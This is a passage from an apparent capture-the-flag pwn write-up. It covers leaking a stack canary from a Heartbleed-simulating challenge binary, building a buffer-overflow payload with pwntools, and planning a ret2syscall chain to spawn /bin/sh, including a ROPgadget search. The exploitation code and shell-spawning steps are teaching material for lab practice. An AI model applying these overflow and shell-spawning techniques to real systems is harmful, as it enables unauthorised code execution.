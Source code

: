 ```python
# Format the leaked date to be in the form of little endian for x64 arch this will give us list of 8 bytes for each element
Leaked_list = list(map(hex, unpack_many(Leaked_raw, 64, endian='little', sign=False)))

# Since the canary is start form byte number 856 and we have list of 8 bytes for each element so now the canary 
# Will be the element number (856/8 = 107)
Canary = int(Leaked_list[107], 16)
log.info("The Canary Value : " + hex(Canary))

# Tha address of the final leave to make the application end
Rip_leave = 0x0000000000401e3e 

payload = flat([
    b'A' * 1032,
    Canary,
    b'A' * 8 ,
    Rip_leave
])
io.interactive()
```

Now as we can see when we run the python script the application is started all over again and print us the first message `Heartbleed Bug Simulator (CVE-2014-0160)` so this means we did it correctly 

![](/assets/img/ctf/pwn/A Guilded Lily/Exploit4.png)


#### **Ret2Syscall**

Is a Buffer Overflow exploit technique which can be abused if the binary itself contains int `0x80 (x86)` or `syscall (x86_64)` as well as necessary ROP gadgets to get a shell.

##### **64-bit ret2syscall Calling Convention**

> To achieve ret2syscall correctly there is some prerequisites must be in place : <br />
- Set $rax to 0x3b <br />
- Set $rdi to the address of the string "/bin/sh" <br />
- Set $rsi to 0 <br />
- Set $rdx to 0 <br />
- Find syscall <br />
{: .prompt-tip }

Most cases the issue will be that there is not `/bin/sh` string so let's try to check if it exist in the binary or not.

```console
(kali㉿kali)-[~/A Guilded Lily]─$ ROPgadget --binary ./challenge.bin --string "/bin/sh" 
Strings information
============================================================
```

As we expected we can't found the `/bin/sh` string so we have to come up with plan to insert it ourself
